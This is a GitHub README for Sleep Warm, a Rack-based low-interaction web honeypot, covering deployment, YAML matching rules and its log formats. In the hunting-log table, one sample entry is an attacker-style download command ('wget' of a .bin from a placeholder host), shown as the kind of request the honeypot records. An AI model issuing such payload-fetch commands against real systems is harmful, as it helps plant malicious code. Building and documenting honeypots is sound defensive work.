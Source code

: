 # Sleep Warm

[![Build Status](https://travis-ci.org/ninoseki/sleep_warm.svg?branch=master)](https://travis-ci.org/ninoseki/sleep_warm)
[![Maintainability](https://api.codeclimate.com/v1/badges/46dcae2391a2a7f5dcb5/maintainability)](https://codeclimate.com/github/ninoseki/sleep_warm/maintainability)
[![Coverage Status](https://coveralls.io/repos/github/ninoseki/sleep_warm/badge.svg?branch=master)](https://coveralls.io/github/ninoseki/sleep_warm?branch=master)

A web-based low-interaction honeypot build on [Rack](https://github.com/rack/rack). This honeypot is highly inspired by [WOWHoneypot](https://github.com/morihisa/WOWHoneypot).

## Concepts

- Easy to install.
  - One-click deploy to Heroku or just execute [Itamae](http://itamae.kitchen/) scripts.
- Easy to customize.
  - Matching rules and default responses are customizable via editing YAML files.
- Well tested.

## Supported

- Ubuntu 16.04 LTS and Ruby 2.5.

## Installation

### Prerequirement

You will need an Elasticsearch instance for log analysis because Sleep Warm can only deal with Logstash logging.

### Deploy on Heroku

You can deploy Sleep Warm on Heroku by clicking the button below and follow the instructions.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy)

### Deploy by Itamae

You can automatically deploy Sleep Warm on Ubuntu by using [Itamae](http://itamae.kitchen/).

You will need Ruby 2.5 & Itamae for the auto deployment.

```sh
$ git clone https://github.com/ninoseki/sleep_warm.git
$ cd sleep_warm
# install Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/default.rb
# install ufw and its settings for the Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/ufw.rb
```

And then the honeypot works as `sleep-warm.service` on `80/tcp` and `9292/tcp`.

## Matching rules

Matching rules are stored in `/opt/sleep-warm/app/rules` as YAML files.

The rule file format:

```yaml
---
meta:
  id: 1001
  enable: true
  note: hoge
trigger:
  method: GET
  uri: hoge
  header: hoge
  body: hoge
response:
  status: 200
  header:
    Server: Apache/2.0.48
    Content-Type: text/html
  body: hoge
```

The rule mataches a request which  HTTP method is `GET` and request URI contains `hoge` and header contains `hoge` and body contains `hoge`.

## Log

Sleep Warm outputs 2 types of logs.

### Access log

- Access log to the honeypot.

| key          | desc.                       | e.g.                    |
|:-------------|:----------------------------|:------------------------|
| client_ip    | Client IP                   | `10.0.2.2`              |
| hostname     | Hostname                    | `localhost:9292`        |
| method       | HTTP method                 | `GET`                   |
| uri          | Request URI                 | `http://localhost:9292` |
| http_version | HTTP version                | `HTTP/1.1`              |
| status       | Status code                 | `200`                   |
| rule_id      | Matched rule id             | `1001`                  |
| all          | Base64 encoded HTTP request | -                       |

### Hunting log

- Hunting log to the honeypot.

| key       | desc.                                    | e.g.                               |
|:----------|:-----------------------------------------|:-----------------------------------|
| client_ip | Client IP                                | `10.0.2.2`                         |
| commands  | Commands which try to download something | `wget http://example.com/hoge.bin` |


